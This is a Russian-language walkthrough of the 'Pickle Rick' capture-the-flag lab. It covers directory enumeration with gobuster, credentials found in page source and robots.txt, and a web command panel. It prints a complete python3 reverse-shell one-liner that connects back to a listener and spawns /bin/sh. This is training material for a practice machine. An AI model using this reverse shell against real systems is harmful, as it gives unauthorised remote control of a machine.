 # Pickle Rick WriteUp (Easy) ✅

Запустив машину и перейдя по ip, мы видим страницу с текстом и картинкой&#x20;

<figure><img src="../.gitbook/assets/image (4).png" alt=""><figcaption><p>📌 Добавив в папку /etc/hosts с помощью команды <code>sudo nano /etc/hosts</code> ip машины и ее название, можно обращаться к этому адресу по названию (например rick.thm)</p></figcaption></figure>

Проверив папку **/robots.txt**, мы можем найти какое-то странное сообщение  (которое в будущем нам понадобится)&#x20;

<figure><img src="../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

Также, просмотрев код сайта, мы можем заметить записку, в которой указано имя пользователя <mark style="color:blue;">**R1ckRul3s**</mark>

<figure><img src="../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>



Далее, используя инструмент <mark style="color:blue;">**gobuster**</mark>** ** (`gobuster dir -u pent.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100 -x .php)` находим несколько скрытых папок

<figure><img src="../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

Конкретно в данному случае нас интересует папка **/login.php**, перейдя по которой мы попадаем на страницу авторизации

<figure><img src="../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

В качестве имени пользователя я ввёл ранее найденное имя <mark style="color:blue;">**R1ckRul3s**</mark>, а в качестве пароля - записку в папке **/robots.txt**

Пройдя авторизацию, мы переходим на страницу с командной строкой и несколькими вкладками, которые нам недоступны (впрочем, они и не нужны)

<figure><img src="../.gitbook/assets/image (6).png" alt=""><figcaption><p>С помощью команды <mark style="color:blue;"><strong>ls</strong></mark> мы можем посмотреть, какие файлы находятся в нашем репозитории</p></figcaption></figure>

К сожалению, мы не имеем разрешения вывести содержимое текстового файла с помощью команды <mark style="color:blue;">**cat**</mark>, но введя в адресную строку **ip\_машины/название\_файла.txt** мы можем прочитать то, что в нём находится

🔎 **** Итак, первый ингредиент написан в файле **Sup3rS3cretPickl3Ingred.txt**

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Для того, чтобы подключиться к данной машине, используем **python3 reverse shell**&#x20;

`python3 -c 'import socket,subprocess,os;s=socket.socket(`[`socket.AF`](https://vk.com/away.php?to=http%3A%2F%2Fsocket.AF\&cc\_key=)`_INET,socket.SOCK_STREAM);s.connect(("10.8.1.185",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=`[`subprocess.call`](https://vk.com/away.php?to=http%3A%2F%2Fsubprocess.call\&cc\_key=)`(["/bin/sh","-i"]);'`

Подключив слушатель в терминале Linux и отправив данную оболочку в командную строку, получаем соединение с машиной.

&#x20;

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Перейдя в директорию **/home**, мы можем найти папку **rick**, в которой и находится второй ингредиент

![](<../.gitbook/assets/image (3).png>)
